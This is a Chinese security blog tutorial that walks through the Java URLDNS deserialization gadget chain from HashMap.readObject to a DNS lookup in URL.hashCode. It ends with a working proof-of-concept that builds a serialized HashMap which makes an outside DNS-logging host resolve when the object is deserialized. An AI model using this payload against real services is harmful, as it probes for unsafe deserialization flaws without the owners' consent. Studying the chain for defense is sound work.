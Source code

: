 # URLDNS链详解


&lt;
!--more--&gt;


先来看一下如何序列化/反序列化
```java
package org.example;  
  
import java.io.*;  
  
public class App   
{  
    public static void main( String[] args ) throws Exception  
    {  
        user user = new user();  
        user.setName(&#34;xiaoming&#34;);  
        //序列化输出  
        ObjectOutputStream out = new ObjectOutputStream(System.out);  
        out.writeObject(user);  
        System.out.println();  
        // 序列化写入文件  
        FileOutputStream file = new FileOutputStream(&#34;test.bin&#34;);  
        ObjectOutputStream fout = new ObjectOutputStream(file);  
        fout.writeObject(user);  
        // 序列化写入到变量中  
        ByteArrayOutputStream bout = new ByteArrayOutputStream();  
        ObjectOutputStream jout = new ObjectOutputStream(bout);  
        jout.writeObject(user);  
        byte[] str = bout.toByteArray();  
        System.out.println(new String(str));  
        // 从变量中反序列化  
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));  
        user user_d = (user) ois.readObject();  
        System.out.println(user_d.getName());  
    }  
}  
  
class user implements Serializable{  
    private String name;  
  
    public user() {  
    }  
  
    public void setName(String name) {  
        this.name = name;  
    }  
  
    public String getName() {  
        return name;  
    }  
}
```
# URLDNS链详解
## 原理
`java.util.HashMap`重写了`readObject`方法，在反序列化时调用`hash`函数计算 key 的 hashCode，而`java.net.URL`的 hashCode 在计算时会调用`getHostAddress`来解析域名，从而发出 DNS 请求
由HashMap 类`readObject`引起，
```java
private void readObject(ObjectInputStream s)  
    throws IOException, ClassNotFoundException {  
    reinitialize();  
  
    ObjectInputStream.GetField fields = s.readFields();  
  
    // Read loadFactor (ignore threshold)  
    float lf = fields.get(&#34;loadFactor&#34;, 0.75f);  
    if (lf &lt;= 0 || Float.isNaN(lf))  
        throw new InvalidObjectException(&#34;Illegal load factor: &#34; &#43; lf);  
  
    lf = Math.min(Math.max(0.25f, lf), 4.0f);  
    HashMap.UnsafeHolder.putLoadFactor(this, lf);  
  
    s.readInt();                // Read and ignore number of buckets  
    int mappings = s.readInt(); // Read number of mappings (size)  
    if (mappings &lt; 0) {  
        throw new InvalidObjectException(&#34;Illegal mappings count: &#34; &#43; mappings);  
    } else if (mappings == 0) {  
        // use defaults  
    } else if (mappings &gt; 0) {  
        float fc = (float)mappings / lf &#43; 1.0f;  
        int cap = ((fc &lt; DEFAULT_INITIAL_CAPACITY) ?  
                   DEFAULT_INITIAL_CAPACITY :  
                   (fc &gt;= MAXIMUM_CAPACITY) ?  
                   MAXIMUM_CAPACITY :  
                   tableSizeFor((int)fc));  
        float ft = (float)cap * lf;  
        threshold = ((cap &lt; MAXIMUM_CAPACITY &amp;&amp; ft &lt; MAXIMUM_CAPACITY) ?  
                     (int)ft : Integer.MAX_VALUE);  
  
        // Check Map.Entry[].class since it&#39;s the nearest public type to  
        // what we&#39;re actually creating.        SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);  
        @SuppressWarnings({&#34;rawtypes&#34;,&#34;unchecked&#34;})  
        Node&lt;K,V&gt;[] tab = (Node&lt;K,V&gt;[])new Node[cap];  
        table = tab;  
  
        // Read the keys and values, and put the mappings in the HashMap  
        for (int i = 0; i &lt; mappings; i&#43;&#43;) {  
            @SuppressWarnings(&#34;unchecked&#34;)  
                K key = (K) s.readObject();  
            @SuppressWarnings(&#34;unchecked&#34;)  
                V value = (V) s.readObject();  
            putVal(hash(key), key, value, false, false);  
        }  
    }  
}
```
在`HashMap`的键名计算了 hash，
`putVal(hash(key), key, value, false, false);`
跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141127560.png)

调用了`key.hashCode()`，而这里的 key 是可控的，就是传入的`java.net.URL`，跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141150723.png)

这里`hashCode==-1`，重新进行`hashCode()`方法计算，跟进`handler`查看调用了哪一个`hashCode()`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141151442.png)

`transient关键字，修饰 Java 序列化对象时，不需要序列化属性`也就是`handler`属性不参与序列化，直接跟进`URLStreamHandler`查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141152682.png)

这里调用了`getHostAddress`跟进查看一下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141153663.png)

又调用了`java.net.URL`的`getHostAddress`方法
继续跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141154024.png)

进入到`InetAddress.getByName(host);`便会触发`DNS`请求
继续回到`readObject()`中，看看如何给`key`赋值

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141230086.png)

`key`是从`K key = (K) s.readObject();`这串代码，也就是`readObject`中得到的，说明之前是`writeObject`会写入 key
HashMap#writeObject

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232544.png)

进入了`internalWriteEntries()`跟进查看

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141232079.png)

这里的`key`以及`value`是从 tab 中取的，而 tab 的值即`HashMap`中 table 的值。
想要修改table的值，就需要调用`HashMap#put`方法，而HashMap#put方法中也会对key调用一次hash方法，所以这里也会产生一次dns查询
为了避免这次 dns 查询，我们将hashCode设置不为`-1`的其他值
构造完整poc
```java
package org.example;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.net.URL;  
import java.util.HashMap;  
  
  
public class URLDNS {  
    public static void main(String[] args) throws Exception {  
        HashMap hashmap = new HashMap();  
        URL url = new URL(&#34;http://47894df839.ipv6.1433.eu.org&#34;);  
        Field f = Class.forName(&#34;java.net.URL&#34;).getDeclaredField(&#34;hashCode&#34;);  
        f.setAccessible(true);  
        f.set(url,1);  
        hashmap.put(url,1);  
        f.set(url,-1);  
        ByteArrayOutputStream b = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(b);  
        oos.writeObject(hashmap);  
  
        byte[] str = b.toByteArray();  
        System.out.println(str);  
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(str));  
        ois.readObject();  
  
  
    }  
}
```
调用栈如下

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401141314961.png)



---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/urldns%E9%93%BE%E8%AF%A6%E8%A7%A3/  

